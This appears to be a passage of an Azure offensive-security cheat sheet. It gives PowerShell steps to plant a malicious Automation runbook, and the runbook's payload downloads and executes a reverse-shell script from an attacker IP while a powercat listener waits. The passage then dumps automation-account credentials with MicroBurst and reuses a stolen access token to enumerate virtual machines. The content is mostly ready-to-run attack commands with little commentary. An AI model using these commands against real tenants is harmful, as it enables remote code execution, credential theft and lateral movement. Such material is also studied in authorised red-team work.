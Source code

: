 #### Import Powershell runbook
```
Import-AzAutomationRunbook -Name <NAME> -Path <PATH TO .ps1 FILE> -AutomationAccountName <NAME> -ResourceGroupName <NAME> -Type PowerShell -Force -Verbose
```

#### Example contents of .ps1 file
```
IEX (New-Object Net.Webclient).downloadstring("http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1")
```

#### Publish the automation runbook to the vm
```
Publish-AzAutomationRunbook -RunbookName <NAME FOR RUNBOOK> -AutomationAccountName <NAME> -ResourceGroupName <NAME> -Verbose
```

#### Start listener
```
powercat -l -v -p 443 -t 600
```

#### Start the runbook
```
Start-AzAutomationRunbook -RunbookName <NAME OF RUNBOOK> -RunOn <WORKERGROUP NAME> -AutomationAccountName <NAME> -ResourceGroupName <NAME> -Verbose
```

### Extract credentials automation account
- https://github.com/NetSPI/MicroBurst
```
Import-Module Microburst.psm1
Get-AzurePasswords
```

## Virtual Machines
- Vm access can be found after getting a new user or tokens and seeing that it has access to a vm

#### Connect with Az Powershell
```
$accesstoken = ''
Connect-AzAccount -AccessToken $accesstoken -AccountId <ID>
```

#### Get more information about the VM (networkprofile)
```
Get-AzVM -Name <VM NAME> -ResourceGroupName <RESOURCE GROUP NAME> | select -ExpandProperty NetworkProfile
```

#### Get the network interface
```
Get-AzNetworkInterface -Name <NETWORKINTERFACE>
```
